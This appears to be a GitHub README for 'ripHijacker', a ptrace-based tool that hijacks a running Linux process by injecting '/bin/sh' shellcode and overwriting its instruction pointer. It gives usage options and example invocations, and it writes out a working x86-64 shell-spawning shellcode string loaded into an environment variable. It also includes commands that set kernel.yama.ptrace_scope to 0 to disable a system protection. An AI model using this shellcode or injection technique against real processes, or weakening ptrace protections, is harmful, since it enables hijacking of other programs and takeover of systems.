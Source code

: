 # ripHijacker

# DESCRIPTION:

- It allows you to inject an hardcoded "/bin/sh" shellcode into the executable segment /lib/x86_64-linux-gnu/ld-2.19.so of the target process and to overwrite its $rip register with the address of that segment.
- It allows you to inject an hardcoded "/bin/sh" shellcode into the stack of the target process and to overwrite its $rip register with the address pointed by its $rsp register.                       
- It allows you to overwrite the $rip register of the target process with the address of an environment variable located in the target's stack.

## SYNOPSIS: 
```bash
$./ripHijacker [OPTIONS]
```

## OPTIONS:
```
-p <target_pid>:        pid of the target process.
-z <0|1>:               if enabled (1), it overwrites the $rip register with an address of the target's stack.
-e <env_var>:           name of the environment variable on which the $rip register will point at.
-n <target_progr_name>: name of the target.
```
(-e and -n options must be used together and only if -z is enabled)

## EXAMPLES:

```bash
 $./ripHijacker -p 6666
 ```
 
 ```bash
 $./ripHijacker -p 6666 -z 1
 ````
 
 We can load a simple /bin/sh shellcode in an environment variable with the comand:
 ```bash
 
 export A=$(python -c "print '\x90' * 20 + '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
 ```
 
Now we can use -e and -n options:

 ```bash
 $./ripHijacker -p 6666 -z 1 -e A -n target_name
```

## NOTES:
ripHijacker uses ptrace. 
```
"A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes.."
```
So we can change scope of ptrace with these commands:
```bash
$sudo vim  /etc/sysctl.d/10-ptrace.conf
```
..and setting.. 
```bash
kernel.yama.ptrace_scope = 0
```
..after that we must load the new settings with:
```bash
$sudo sysctl --system -a -p | grep  yama
```

Obviously, to use '-z 1' option the target program must be compiled with the "-z execstack" option and to use -e and -n options the environment variable must be loaded before the program target execution.

## ACKNOWLEDGEMENT:

Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
conoscenza dell'utilità di ptrace ed anche Crossbower che mi ha dato l'idea su come effettuare l'attacco ld_inj

## Video:
[![Video image](https://img.youtube.com/vi/Pi39DfYiMFQ/0.jpg)](https://www.youtube.com/watch?v=Pi39DfYiMFQ)


